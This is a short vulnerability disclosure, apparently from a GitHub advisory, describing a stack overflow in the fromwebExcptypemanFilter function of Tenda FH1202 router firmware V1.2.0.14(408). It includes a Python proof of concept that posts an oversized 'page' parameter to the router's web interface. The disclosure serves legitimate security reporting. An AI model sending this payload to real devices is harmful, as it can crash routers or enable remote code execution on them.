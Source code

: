 # Tenda FH1202 fromwebExcptypemanFilter
### Overview
vendor: Tenda

product: FH1202

version: V1.2.0.14(408)

type: Stack Overflow
### Vulnerability Description
Tenda FH1202 V1.2.0.14(408) were discovered to contain a stack overflow via the page parameter in the fromwebExcptypemanFilter function.
### Vulnerability details
In function fromwebExcptypemanFilter line 18, it reads in a user-provided parameter `page`, and the variable is passed to the `sprintf` function without any length check, which may overflow the stack-based buffer `s`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/5.png)

### POC
```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/webExcptypemanFilter"

data = {
    "page": "a" * 1000
}

response = requests.post(url, data=data)
print(response.text)
```

![](images/7.png)
